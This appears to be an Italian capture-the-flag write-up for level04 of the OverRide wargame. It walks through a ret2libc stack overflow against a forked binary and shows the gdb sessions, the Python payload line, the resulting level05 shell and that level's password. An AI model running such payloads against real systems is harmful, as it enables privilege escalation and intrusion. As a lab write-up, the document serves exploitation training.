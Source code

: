 # Level 04
Analizziamo le stringhe presenti nel binario:
```
level04@OverRide:~$ readelf -p '.rodata' level04

String dump of section '.rodata':
  [     8]  %u
  [     b]  Give me some shellcode, k
  [    25]  child is exiting...
  [    39]  no exec() for you
```
Analizziamo tramite `gdb`:
```
level04@OverRide:~$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804845c  _init
0x080484a0  fflush
0x080484a0  fflush@plt
0x080484b0  gets
0x080484b0  gets@plt
0x080484c0  getchar
0x080484c0  getchar@plt
0x080484d0  signal
0x080484d0  signal@plt
0x080484e0  alarm
0x080484e0  alarm@plt
0x080484f0  wait
0x080484f0  wait@plt
0x08048500  puts
0x08048500  puts@plt
0x08048510  __gmon_start__
0x08048510  __gmon_start__@plt
0x08048520  kill
0x08048520  kill@plt
0x08048530  __libc_start_main
0x08048530  __libc_start_main@plt
0x08048540  prctl
0x08048540  prctl@plt
0x08048550  fork
0x08048550  fork@plt
0x08048560  __isoc99_scanf
0x08048560  __isoc99_scanf@plt
0x08048570  ptrace
0x08048570  ptrace@plt
0x08048580  _start
0x080485b0  __do_global_dtors_aux
0x08048610  frame_dummy
0x08048634  clear_stdin
0x08048657  get_unum
0x0804868f  prog_timeout
0x080486a0  enable_timeout_cons
0x080486c8  main
0x08048830  __libc_csu_init
0x080488a0  __libc_csu_fini
0x080488a2  __i686.get_pc_thunk.bx
0x080488b0  __do_global_ctors_aux
0x080488dc  _fini
```

### Funzione `main`
Viene avviato un processo figlio il quale richiede una stringa in input per poi
terminare la sua esecuzione. Mentre nel processo padre viene controllato se il
processo figlio è terminato e se è in esecuzione una funzione `exec` così da terminare
in modo forzato tramite `kill` il processo.

### Soluzione
Dato che non si può usare uno shellcode con `exec` allora useremo la tecnica `ret2libc`.
Troviamo l'offset per sovrascrivere l'`eip`:
```
level04@OverRide:~$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 2436]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2436]
0x41326641 in ?? ()
```
Abbiamo individuato l'offset a `156`, ora cerchiamo l'indirizzo della funzione `system`
e della stringa `/bin/sh`:
```
level04@OverRide:~$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) info proc map
process 2440
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
```
system:  0xf7e6aed0
/bin/sh: 0xf7f897ec
```
Mettendo un breakpoint nel punto in cui poi partirà la funzione `system` individuiamo
quale punto dello stack viene passato alla funzione, ovvero 4 byte dopo l'indirizzo,
quindi ora procediamo:
```
level04@OverRide:~$ python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "A"*4 + "\xec\x97\xf8\xf7"' > /tmp/exploit
level04@OverRide:~$ cat /tmp/exploit - | ./level04
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
level04@OverRide:~$ su level05
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$
```
